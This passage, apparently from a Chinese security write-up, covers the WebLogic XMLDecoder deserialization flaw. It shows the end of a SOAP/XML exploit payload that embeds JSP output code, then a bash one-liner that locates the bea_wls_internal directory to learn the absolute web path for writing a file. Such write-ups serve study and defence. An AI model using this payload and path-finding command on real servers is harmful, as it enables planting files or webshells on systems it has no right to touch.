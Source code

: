 ```xml
        }
        out.print("</pre>");
    } 
    out.print("test"); 
    %>]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
    </soapenv:Envelope>
```

这个方法中找到当前绝对路径是个关键，查找当前路径的方法：

```bash
for i in `find $(find ./ -type d -name bea_wls_internal) -type f -name ".beamarker.dat"| xargs -I {} echo {}.txt`; do echo `pwd` "$i" >$i; done

#1.先找到bea_wls_internal目录的绝对路径
#2.在bea_wls_internal目录的路径中找“.beamarker.dat”文件的绝对路径
#3.对每个路径下的“.beamarker.dat”都创建一个“.beamarker.dat.txt”
#4.将当前路径和“.beamarker.dat.txt”的绝对路径都写入到当前的“.beamarker.dat.txt”中
```



参考：

1. https://www.anquanke.com/post/id/92003
2. https://cxsecurity.com/issue/WLB-2018010082
3. https://threathunter.org/topic/5a426e6bec721b1f1966f238
4. https://threathunter.org/topic/5a436cc6ec721b1f1966f270